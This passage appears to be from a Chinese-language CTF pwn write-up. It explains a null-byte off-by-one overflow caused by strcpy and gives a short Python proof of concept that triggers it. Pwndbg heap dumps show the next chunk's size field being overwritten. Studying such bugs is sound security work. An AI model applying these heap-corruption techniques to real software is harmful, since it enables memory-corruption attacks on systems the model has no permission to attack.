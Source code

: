 ```c
  note_size[i] = size;
}
```

我们知道strcpy在拷贝字符串时连末尾的'\0'也会一起拷贝，假设我们的字符串长度刚好和所分配给它的长度相等，那么就可能会造成null-byte-off-by-one漏洞，我们简单的验证一下

```python
#poc
new(0x10,'a'*8)
new(0x110,'aaaa')
raw_input()

free(0)
new(0x18,'a'*0x18)
raw_input()
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Used                None              None
0x565258e29270      0x0                 0x110                Used                None              None

pwndbg> parseheap
addr                prev                size                 status              fd                bk   
0x565258e29000      0x0                 0x250                Used                None              None
0x565258e29250      0x0                 0x20                 Freed 0x61616161616161610x6161616161616161
0x565258e29270      0x6161616161616161  0x100                Freed         0x62626262               0x0
Corrupt ?! (size == 0) (0x565258e29370)

```

```bash
pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x0000000000000000
0x565258e29270:	0x0000000000000000	0x0000000000000111
0x565258e29280:	0x0000000062626262	0x0000000000000000

pwndbg> x/8x 0x565258e29250
0x565258e29250:	0x0000000000000000	0x0000000000000021
0x565258e29260:	0x6161616161616161	0x6161616161616161
0x565258e29270:	0x6161616161616161	0x0000000000000100   ==>这里原本应该为0x111但最末尾的0x11被0x00覆盖了
0x565258e29280:	0x0000000062626262	0x0000000000000000
```
